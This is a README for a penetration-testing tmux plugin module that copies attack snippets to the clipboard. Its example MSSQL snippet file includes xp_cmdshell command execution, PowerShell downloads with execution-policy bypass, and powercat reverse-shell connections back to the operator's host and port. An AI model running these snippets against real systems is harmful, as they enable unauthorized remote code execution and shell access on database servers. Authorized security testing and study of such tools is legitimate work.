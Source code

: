 # Snipper Module

This module is providing an interface to copy snippets to the clipboard which can use various penmux options (not restricted to this module) as paramters, flags, etc. so that you don't have to mess around with boring stuff.

It can be extended by csv files with new snippets as you like and has some dumb replacement parser to use dynamic values from penmux options, etc.

## 1. Keytable

Not implemented.

## 2. Options

The following configurable options are used by the Commander module.

| Option | Type | Default | Description |
|--------|------|---------|-------------|
|SnippetSearchPath | String | $HOME/.tmux/plugins/tmux-penmux/modules/auxiliary/Snipper/snippets | The search path for csv files providing snippets |
|ClipboardCommand | String | echo '\$\$snippet\$\$' \| xclip -i -sel c | The command used to copy the snippet to the clipboard. The placeholder `'$$snippet$$'` will be replaced by the selected snippet |
|LocalHost | String | 127.0.0.1 | An option used by various commands. Can be seen like metasploit's LHOST |
|LocalPort | Integer | 4444 | An option used by various commands. Can be seen like metasploit's LPORT |

## 3. Adding snippets

You can extend the Snipper with snippets to your like. Either by extending existing csv files or creating new ones. The module is loading any csv or sh file from the 'SnippetSearchPath' recursively so that they can be grouped by using nested directories.

**If you're adding any snippets, please create an issue / pr so that others can benefit from**

### Needed files

For a new group of snippets, you need to create two files (csv and desc) under any sub folder inside the 'SnippetSearchPath' directory.
It has an empty custom folder that should be used for custom snippets and is not included in the git source.

Follow these steps to create a new snippet group (default configuration):
```
mkdir -p $HOME/.tmux/plugins/tmux-penmux/modules/auxiliary/Snipper/snippets/custom/my/new/group
touch $HOME/.tmux/plugins/tmux-penmux/modules/auxiliary/Snipper/snippets/custom/my/new/group/sub.csv
echo "My sub group provides some cool stuff" $HOME/.tmux/plugins/tmux-penmux/modules/auxiliary/Snipper/snippets/custom/my/new/group/sub.desc
```
The csv format is using just ',' as separator and contains the following columns:
| name | description | snippet | variables |
|------|-------------|---------|-----------|
|Unique name which is shown in the selector | A description of what the snippet is doing | The snippet, which is to be copied | Variables that will be asked to change by the user |

As example checkout the mssql group under 'databases/sql'

mssql.desc (this is the description shown by the selection window):
```
Snippets for mssql related things
```
mssql.csv (this is the csv file containing the snippet definitions):
```
name,description,snippet,variables
MsSQLExecuteCommand,MsSQL comamnd execution via xp_cmdshell,EXEC xp_cmdshell "§§§command§§§",§§§command§whoami§command that should be executed§§§
MsSQLExecuteCommandPsDownload,MsSQL comamnd execution via xp_cmdshell (download file via powershell),EXEC xp_cmdshell "powershell -ep bypass -nop iwr -uri ###HttpUri###§§§file§§§ -outfile §§§file§§§",§§§file§powercat.ps1§filename to download from host§§§
MsSQLExecuteCommandPsDownloadTemp,MsSQL comamnd execution via xp_cmdshell (download file via powershell to temp),EXEC xp_cmdshell "powershell -ep bypass -nop iwr -uri ###HttpUri###§§§file§§§ -outfile $env:TEMP\§§§file§§§",§§§file§powercat.ps1§filename to download from host§§§
MsSQLExecutePowercat,MsSQL comamnd execution via xp_cmdshell (powercat connection to host),EXEC xp_cmdshell "powershell -ep bypass -nop . powercat.ps1; powercat -c ###LocalHost### -p ###LocalPort### -ep",
MsSQLExecutePowercatTemp,MsSQL comamnd execution via xp_cmdshell (powercat connection to host in temp),EXEC xp_cmdshell "powershell -ep bypass -nop . $env:TEMP\powercat.ps1; powercat -c ###LocalHost### -p ###LocalPort### -ep",
```

### Braking it down

Let's check out one line to get an idea on what is going on:
```
MsSQLExecuteCommand,MsSQL comamnd execution via xp_cmdshell,EXEC xp_cmdshell "§§§command§§§",§§§command§whoami§command that should be executed§§§
```
- The first part `MsSQLExecuteCommand` is just the selector name shown to the user.
- The second part `MsSQL comamnd execution via xp_cmdshell` is just the description of what the snippet will do shown to the user.
- The third part `EXEC xp_cmdshell "§§§command§§§"` is the snippet that will be copied to the clipboard. It can use any placeholders that will be replaced like `###SessionDir###`. Further it has it's own replacements like `§§§command§§§` that are variables for the Snipper only and are automatically asked to change by the user.
- The last part `§§§command§whoami§command that should be executed§§§` are the variables used by the snippet. This format is specific to the Snipper and described [here](#snipper_var_format).

### <a name="#snipper_var_format"></a>Snipper variables format

**TODO**

### Replacement / Expanding

For detailed information of what can be added as dynamic values please refer to [String replacements](../misc/Replacements.md)

## 4. Development information

**TODO**

